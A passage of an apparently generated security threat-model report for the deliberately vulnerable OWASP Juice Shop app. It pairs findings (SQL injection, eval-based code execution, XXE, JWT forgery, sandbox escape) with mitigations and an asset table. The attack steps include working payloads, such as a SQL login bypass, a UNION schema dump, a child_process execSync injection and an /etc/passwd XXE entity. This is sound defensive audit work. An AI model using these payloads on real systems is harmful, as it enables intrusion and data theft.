

**Key takeaway:** Until ❶ [M-014](#m-014) (Enforce object-level (ownership) authorization) lands, 🔴 [F-006](#f-006) — Insecure Direct Object Reference — `routes/address.ts:11` is exploitable at `routes/address.ts:11` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-014](#m-014) (Enforce object-level (ownership) authorization)

### 3.6 SQL Injection

**Source:** 🔴 [F-007](#f-007) — `routes/login.ts:34`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-007](#f-007) for the full register row.

**Attack Steps**

1. `req.body.email` is interpolated directly into a raw Sequelize query string at `routes/login.ts:34`: `SELECT * FROM Users WHERE email = '${req.body.email}'`.
2. An unauthenticated POST to `/rest/user/login` with `email` = `' OR '1'='1'--` returns the first user row (the seeded admin account).
3. Full UNION-based data extraction is also possible.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-015](#m-015) (Use parameterized database queries) lands, 🔴 [F-007](#f-007) — SQL Injection — `routes/login.ts:34` is exploitable at `routes/login.ts:34` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-015](#m-015) (Use parameterized database queries)

### 3.7 SQL Injection

**Source:** 🔴 [F-008](#f-008) — `routes/search.ts:23`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-008](#f-008) for the full register row.

**Attack Steps**

1. The product search endpoint `GET /rest/products/search?q=` passes `req.query.q` directly into a raw Sequelize query at line 23: `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%'…)`.
2. A UNION injection payload such as `q='))UNION SELECT sql,null FROM sqlite_master--` extracts the full database schema.
3. Further UNION queries exfiltrate user emails and password hashes.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-016](#m-016) (Use parameterized database queries) lands, 🔴 [F-008](#f-008) — SQL Injection — `routes/search.ts:23` is exploitable at `routes/search.ts:23` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-016](#m-016) (Use parameterized database queries)

### 3.8 Server-Side Code Execution

**Source:** 🔴 [F-009](#f-009) — `routes/userProfile.ts:62`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Tampering. See [§8 F-009](#f-009) for the full register row.

**Attack Steps**

1. When the `username` field of the authenticated user matches the pattern `#{…}`, `routes/userProfile.ts:62` executes `eval(code)` where `code` is the substring between `#{` and `}`.
2. An authenticated user sets their username to `#{process.mainModule.require('child_process').execSync('id').toString()}` via `PUT /profile`.
3. On the next `GET /profile` request, Node\.js executes the shell command and renders the output in the HTML response.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-017](#m-017) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-009](#f-009) — Server-Side Code Execution — `routes/userProfile.ts:62` is exploitable at `routes/userProfile.ts:62` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Remove server-side evaluation of untrusted input)

### 3.9 Payment card numbers stored in plaintext

**Source:** 🔴 [F-010](#f-010) — `models/card.ts:39`

Severity **Critical** ([CWE-312](https://cwe.mitre.org/data/definitions/312.html)). STRIDE: Information Disclosure. See [§8 F-010](#f-010) for the full register row.

**Attack Steps**

1. The `Card` Sequelize model at `models/card.ts:39` declares `cardNum` as `DataTypes.INTEGER`.
2. Full 16-digit payment card numbers are written to the `Cards` table in the SQLite database (`data/juiceshop.sqlite`) without any encryption, truncation, or masking.
3. Any actor with read access to the SQLite file - including via SQL injection (the known `sequelize.query()` sinks in `routes/login.ts:34` and `routes/search.ts:23`) or OS-level file access - retrieves complete PANs in a single SELECT.

**Sequence Diagram**



**Key takeaway:** Until ❷ [M-018](#m-018) (Stop storing sensitive data in cleartext) lands, 🔴 [F-010](#f-010) — Payment card numbers stored in plaintext — `models/card.ts:39` is exploitable at `models/card.ts:39` (Critical-severity, [CWE-312](https://cwe.mitre.org/data/definitions/312.html)).

**Defense in Depth**

- Primary mitigation: ❷ [M-018](#m-018) (Stop storing sensitive data in cleartext)

### 3.10 XML External Entity Expansion

**Source:** 🔴 [F-011](#f-011) — `routes/fileUpload.ts:83`

Severity **Critical** ([CWE-611](https://cwe.mitre.org/data/definitions/611.html)). STRIDE: Information Disclosure. See [§8 F-011](#f-011) for the full register row.

**Attack Steps**

1. An unauthenticated attacker POSTs to `/file-upload` a crafted XML file containing an external entity declaration (e.g., <!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><x>&xxe;</x>).
2. At `fileUpload.ts:83`, libxmljs2 is invoked with `noent:true`, which triggers DTD entity resolution and substitutes the file content into the XML document tree.
3. The resolved XML string is then embedded directly in the error message at line 87 and returned to the caller, exposing up to 400 bytes of the target file's content per request.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-019](#m-019) (Disable XML external entity (XXE) resolution) lands, 🔴 [F-011](#f-011) — XML External Entity Expansion — `routes/fileUpload.ts:83` is exploitable at `routes/fileUpload.ts:83` (Critical-severity, [CWE-611](https://cwe.mitre.org/data/definitions/611.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-019](#m-019) (Disable XML external entity (XXE) resolution)

### 3.11 Client-Side-Only Route Guard Bypassable

**Source:** 🔴 [F-012](#f-012) — `frontend/src/app/app.guard.ts:18`

Severity **Critical** ([CWE-287](https://cwe.mitre.org/data/definitions/287.html)). STRIDE: Elevation of Privilege. See [§8 F-012](#f-012) for the full register row.

**Attack Steps**

1. The `LoginGuard.canActivate()` method at `app.guard.ts:17-24` returns `true` solely if `localStorage.getItem('token')` is non-null.
2. Any attacker who can execute JavaScript in the browser (e.g. via DOM XSS angular-spa-003) can write an arbitrary string to localStorage and then navigate to `/administration` or `/accounting`, with the `AdminGuard` and `AccountingGuard` similarly reading and decoding the stored JWT client-side without any server-side signature re-verification.
3. Given `jsonwebtoken@0.4.0` accepts `alg:none` on the backend, a crafted JWT with `role: admin` and `alg: none` placed in localStorage passes both the client-side `AdminGuard` and, per the backend's known vulnerability, subsequent API calls.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-020](#m-020) (Harden the authentication flow) lands, 🔴 [F-012](#f-012) — Client-Side-Only Route Guard Bypassable — `app.guard.ts:18` is exploitable at `frontend/src/app/app.guard.ts:18` (Critical-severity, [CWE-287](https://cwe.mitre.org/data/definitions/287.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-020](#m-020) (Harden the authentication flow)

### 3.12 Role Escalation

**Source:** 🔴 [F-013](#f-013) — `lib/insecurity.ts:56`

Severity **Critical** ([CWE-269](https://cwe.mitre.org/data/definitions/269.html)). STRIDE: Elevation of Privilege. See [§8 F-013](#f-013) for the full register row.

**Attack Steps**

1. The `authorize()` function at `lib/insecurity.ts:56` signs JWTs with the hardcoded RSA private key at line 23.
2. The `isAccounting()` middleware at line 156 trusts the `data.role` claim decoded from the JWT.
3. Since the private key is public, an attacker signs a JWT with `{ data: { id: <any_id>, role: 'admin', email: 'attacker@evil.com' } }` and sets the `Authorization: Bearer <forged_token>` header.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-021](#m-021) (Apply least-privilege permissions) lands, 🔴 [F-013](#f-013) — Role Escalation — `lib/insecurity.ts:56` is exploitable at `lib/insecurity.ts:56` (Critical-severity, [CWE-269](https://cwe.mitre.org/data/definitions/269.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-021](#m-021) (Apply least-privilege permissions)

### 3.13 Server-side RCE

**Source:** 🔴 [F-014](#f-014) — `routes/b2bOrder.ts:23`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Elevation of Privilege. See [§8 F-014](#f-014) for the full register row.

**Attack Steps**

1. An authenticated B2B API user (or an attacker who has forged a valid JWT using the publicly-known private key) POST `/b2b/v2/orders` with an `orderLinesData` value containing a JavaScript constructor-chain escape payload, e.g.
2. `this.constructor.constructor('return process')().exit(1)`.
3. The payload is passed verbatim to `safeEval(orderLinesData)` inside a `vm.createContext()` sandbox at `b2bOrder.ts:23`.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-022](#m-022) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-014](#f-014) — Server-side RCE — `routes/b2bOrder.ts:23` is exploitable at `routes/b2bOrder.ts:23` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-022](#m-022) (Remove server-side evaluation of untrusted input)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="20%" style="width:20%"><col width="6%" style="width:6%"><col width="12%" style="width:12%"><col width="29%" style="width:29%"><col width="33%" style="width:33%"></colgroup>
<thead><tr><th>Asset</th><th>ID</th><th>Classification</th><th>Description</th><th>Linked Threats</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere">JWT RSA Private Key</td><td style="white-space:nowrap">A-002</td><td>Restricted</td><td>1024-bit RSA private key used to sign all JWT session tokens. Hardcoded in plaintext in <code>lib/insecurity.ts:24</code> and committed to the public GitHub repository. Possession of this key allows forging arbitrary admin JWTs.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-001">F-001</a> — JWT Session Token in localStorage (<code>login.component.ts:101</code>)<br/>🔴 <a href="#f-003">F-003</a> — Insecure JWT Verification (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-004">F-004</a> — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-005">F-005</a> — Unsalted MD5 password hashing (<code>lib/insecurity.ts:43</code>)<br/>🔴 <a href="#f-010">F-010</a> — Payment card numbers stored in plaintext (<code>models/card.ts:39</code>)<br/>🔴 <a href="#f-013">F-013</a> — Role Escalation (<code>lib/insecurity.ts:56</code>)<br/>🟠 <a href="#f-022">F-022</a> — Unpinned third-party GitHub Action allows supply-chain code (<code>ci.yml:161</code>)<br/>🟠 <a href="#f-025">F-025</a> — Zip-Slip Path Traversal (<code>routes/fileUpload.ts:45</code>)<br/>🟠 <a href="#f-028">F-028</a> — Password Credentials in URL Query Parameters (<code>user.service.ts:54</code>)<br/>🔴 <a href="#f-029">F-029</a> — Hardcoded HMAC Key for Security Answer Verification (<code>lib/insecurity.ts:44</code>)<br/>🟠 <a href="#f-035">F-035</a> — Unauthenticated Application Configuration Endpoint (<code>server.ts:605</code>)<br/>🟠 <a href="#f-037">F-037</a> — SSRF Response Body Exposed (<code>routes/profileImageUrlUpload.ts:29</code>)<br/>🟠 <a href="#f-039">F-039</a> — CTF Flag Broadcast to All Unauthenticated WebSocket (<code>lib/challengeUtils.ts:71</code>)<br/>🟠 <a href="#f-040">F-040</a> — Unbounded In-Memory Token Map Enables Session Exhaustion (<code>lib/insecurity.ts:75</code>)<br/>🟡 <a href="#f-058">F-058</a> — Unauthenticated B2B API attack surface disclosure (<code>server.ts:286</code>)<br/>🟢 <a href="#f-066">F-066</a> — SOLUTIONS_WEBHOOK secret exposed to Cypress test runner (<code>ci.yml:223</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Payment Card Data</td><td style="white-space:nowrap">A-004</td><td>Restricted</td><td>Credit/debit card numbers stored via the Card model in SQLite (<code>models/card.ts</code>). Juice Shop stores raw card data as a training example of PCI-DSS violations.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-006">F-006</a> — Insecure Direct Object Reference (<code>routes/address.ts:11</code>)<br/>🔴 <a href="#f-007">F-007</a> — SQL Injection (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-008">F-008</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-010">F-010</a> — Payment card numbers stored in plaintext (<code>models/card.ts:39</code>)<br/>🔴 <a href="#f-018">F-018</a> — Stored XSS (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-019">F-019</a> — DOM XSS (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-020">F-020</a> — Stored XSS (<code>routes/saveLoginIp.ts:18</code>)<br/>🟠 <a href="#f-024">F-024</a> — User role field writable without ownership check in model (<code>models/user.ts:80</code>)<br/>🟠 <a href="#f-028">F-028</a> — Password Credentials in URL Query Parameters (<code>user.service.ts:54</code>)<br/>🟠 <a href="#f-034">F-034</a> — SQLite database file stored unencrypted at rest (<code>models/index.ts:38</code>)<br/>🔴 <a href="#f-046">F-046</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-050">F-050</a> — Missing Authorization on PUT <code>/api/Products/:id</code> (<code>server.ts:369</code>)<br/>🔴 <a href="#f-054">F-054</a> — XSS (<code>last-login-ip.component.ts:39</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">User Credentials (Passwords + Email)</td><td style="white-space:nowrap">A-001</td><td>Confidential</td><td>User email addresses and password hashes (<code>SHA256</code>, no salt) stored in the Users table in SQLite. Credentials are also transmitted via login endpoint. Password hashes are trivially crackable due to weak algorithm.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — Derived Credential from OAuth Email Claim (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-005">F-005</a> — Unsalted MD5 password hashing (<code>lib/insecurity.ts:43</code>)<br/>🔴 <a href="#f-007">F-007</a> — SQL Injection (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-008">F-008</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-018">F-018</a> — Stored XSS (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-019">F-019</a> — DOM XSS (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-020">F-020</a> — Stored XSS (<code>routes/saveLoginIp.ts:18</code>)<br/>🟠 <a href="#f-028">F-028</a> — Password Credentials in URL Query Parameters (<code>user.service.ts:54</code>)<br/>🟠 <a href="#f-043">F-043</a> — No Rate Limiting on Login Endpoint (<code>server.ts:594</code>)<br/>🔴 <a href="#f-054">F-054</a> — XSS (<code>last-login-ip.component.ts:39</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">User Session Tokens (JWT)</td><td style="white-space:nowrap">A-003</td><td>Confidential</td><td><code>RS256</code>-signed JWT tokens stored in browser localStorage by the Angular SPA. Tokens carry user identity (email, role, userId) with 6-hour expiry. Vulnerable to <code>alg:none</code> bypass due to <code>jsonwebtoken@0.4.0</code>.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-001">F-001</a> — JWT Session Token in localStorage (<code>login.component.ts:101</code>)<br/>🔴 <a href="#f-003">F-003</a> — Insecure JWT Verification (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-010">F-010</a> — Payment card numbers stored in plaintext (<code>models/card.ts:39</code>)<br/>🔴 <a href="#f-012">F-012</a> — Client-Side-Only Route Guard Bypassable (<code>app.guard.ts:18</code>)<br/>🔴 <a href="#f-018">F-018</a> — Stored XSS (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-019">F-019</a> — DOM XSS (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-020">F-020</a> — Stored XSS (<code>routes/saveLoginIp.ts:18</code>)<br/>🟠 <a href="#f-028">F-028</a> — Password Credentials in URL Query Parameters (<code>user.service.ts:54</code>)<br/>🟠 <a href="#f-045">F-045</a> — JWT Algorithm Bypass in 2FA Token Verification (<code>routes/2fa.ts:26</code>)<br/>🔴 <a href="#f-054">F-054</a> — XSS (<code>last-login-ip.component.ts:39</code>)<br/>🔴 <a href="#f-056">F-056</a> — Container images published without signing or build provenance (<code>ci.yml:305</code>)<br/>🔴 <a href="#f-060">F-060</a> — Container images not signed (<code>ci.yml:1</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Customer Order Data</td><td style="white-space:nowrap">A-005</td><td>Confidential</td><td>Order history, basket contents, delivery addresses stored in SQLite via Sequelize models (<code>basket.ts</code>, <code>basketitem.ts</code>, <code>address.ts</code>, <code>order.ts</code>, <code>delivery.ts</code>). Includes PII such as delivery addresses.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-006">F-006</a> — Insecure Direct Object Reference (<code>routes/address.ts:11</code>)<br/>🔴 <a href="#f-007">F-007</a> — SQL Injection (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-008">F-008</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-018">F-018</a> — Stored XSS (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-019">F-019</a> — DOM XSS (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-020">F-020</a> — Stored XSS (<code>routes/saveLoginIp.ts:18</code>)<br/>🟠 <a href="#f-034">F-034</a> — SQLite database file stored unencrypted at rest (<code>models/index.ts:38</code>)<br/>🟠 <a href="#f-035">F-035</a> — Unauthenticated Application Configuration Endpoint (<code>server.ts:605</code>)<br/>🟠 <a href="#f-037">F-037</a> — SSRF Response Body Exposed (<code>routes/profileImageUrlUpload.ts:29</code>)<br/>🟠 <a href="#f-039">F-039</a> — CTF Flag Broadcast to All Unauthenticated WebSocket (<code>lib/challengeUtils.ts:71</code>)<br/>🔴 <a href="#f-046">F-046</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-050">F-050</a> — Missing Authorization on PUT <code>/api/Products/:id</code> (<code>server.ts:369</code>)<br/>🔴 <a href="#f-051">F-051</a> — Mass Assignment Admin Role Injection (<code>server.ts:483</code>)<br/>🔴 <a href="#f-054">F-054</a> — XSS (<code>last-login-ip.component.ts:39</code>)<br/>🟡 <a href="#f-057">F-057</a> — Sequelize query logging disabled no data-layer audit trail (<code>models/index.ts:39</code>)<br/>🟡 <a href="#f-058">F-058</a> — Unauthenticated B2B API attack surface disclosure (<code>server.ts:286</code>)<br/>🟢 <a href="#f-066">F-066</a> — SOLUTIONS_WEBHOOK secret exposed to Cypress test runner (<code>ci.yml:223</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Source Code and Configuration</td><td style="white-space:nowrap">A-007</td><td>Confidential</td><td>TypeScript/JavaScript source code, configuration files (<code>config/default.yml</code>), encryption keys, and <code>swagger.yml</code>. Publicly available on GitHub as open source but represents the definitive attack blueprint.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-004">F-004</a> — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-010">F-010</a> — Payment card numbers stored in plaintext (<code>models/card.ts:39</code>)<br/>🟠 <a href="#f-022">F-022</a> — Unpinned third-party GitHub Action allows supply-chain code (<code>ci.yml:161</code>)<br/>🟠 <a href="#f-025">F-025</a> — Zip-Slip Path Traversal (<code>routes/fileUpload.ts:45</code>)<br/>🟠 <a href="#f-028">F-028</a> — Password Credentials in URL Query Parameters (<code>user.service.ts:54</code>)<br/>🔴 <a href="#f-029">F-029</a> — Hardcoded HMAC Key for Security Answer Verification (<code>lib/insecurity.ts:44</code>)<br/>🟠 <a href="#f-030">F-030</a> — GitHub Actions workflow missing top-level permissions block (<code>release.yml:1</code>)<br/>🟠 <a href="#f-031">F-031</a> — Third-party GitHub Action not pinned to commit SHA (<code>codeql-analysis.yml:23</code>)<br/>🟠 <a href="#f-035">F-035</a> — Unauthenticated Application Configuration Endpoint (<code>server.ts:605</code>)<br/>🟠 <a href="#f-037">F-037</a> — SSRF Response Body Exposed (<code>routes/profileImageUrlUpload.ts:29</code>)<br/>🟠 <a href="#f-039">F-039</a> — CTF Flag Broadcast to All Unauthenticated WebSocket (<code>lib/challengeUtils.ts:71</code>)<br/>🟠 <a href="#f-048">F-048</a> — Missing workflow-level permissions block grants GITHUB_TOKEN (<code>ci.yml:1</code>)<br/>🟡 <a href="#f-058">F-058</a> — Unauthenticated B2B API attack surface disclosure (<code>server.ts:286</code>)<br/>🟡 <a href="#f-062">F-062</a> — Dependabot not configured for npm ecosystem 